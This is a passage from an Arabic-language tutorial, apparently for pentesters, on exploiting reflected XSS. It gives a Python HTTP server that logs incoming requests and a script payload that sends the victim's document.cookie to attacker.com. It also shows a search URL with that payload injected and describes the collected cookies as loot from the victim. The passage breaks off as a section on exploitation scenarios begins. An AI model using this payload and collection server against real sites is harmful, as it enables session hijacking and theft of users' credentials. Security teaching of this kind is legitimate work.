 
**خلاصة بالعامية:**
الـ Payloads دي زي الأسلحة اللي بتستخدمها في الهجوم. كل واحد ليه شغلانة معينة، زي إنك تسرق الكوكيز أو تجيب سكربت من برا. لو الموقع حاطط قيود، لازم تكون ذكي وتجرب حاجات غريبة عشان تخترق الحماية.

---

#### **الخطوة 3: إعداد سيرفر لاستقبال البيانات**
لو عايز تستغل الثغرة بجد (زي سرقة الكوكيز)، لازم يكون عندك سيرفر جاهز. هنا طريقة عملية:

1. **استخدم Python لسيرفر بسيط:**
   - اكتب سكربت Python زي ده:
     ```python
     from http.server import HTTPServer, BaseHTTPRequestHandler

     class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
         def do_GET(self):
             self.send_response(200)
             self.end_headers()
             print(f"Received: {self.path}")
             self.wfile.write(b"Got your data!")

     httpd = HTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
     httpd.serve_forever()
     ```
   - شغّل السكربت:
     ```
     python3 server.py
     ```
   - ده هيخلّي السيرفر يسجّل أي طلبات بتيجي عليه (زي الكوكيز).

2. **استخدم Payload لإرسال البيانات:**
   عدل الـ Payload عشان يبعت الكوكيز للسيرفر بتاعك:
   ```html
   <script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
   ```

3. **اختبار الاستغلال:**
   - حط الـ Payload في الـ URL:
     ```
     example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - لو المستخدم فتح الرابط، هتشوف الكوكيز في السيرفر بتاعك.

---

**خلاصة بالعامية:**
السيرفر ده زي المكتب اللي بيستقبل الغنيمة. لما الكود الخبيث يشتغل عند الضحية، هيبعتلك البيانات (زي الكوكيز) على السيرفر، وانت كده قدرت تجيب اللي عايزه.

---

### **3. السيناريوهات الممكنة لاستغلال Reflected XSS**
كـ **Pentester**، لازم تعرف كل الطرق اللي ممكن تستغل بيها Reflected XSS. هنا السيناريوهات الشائعة:
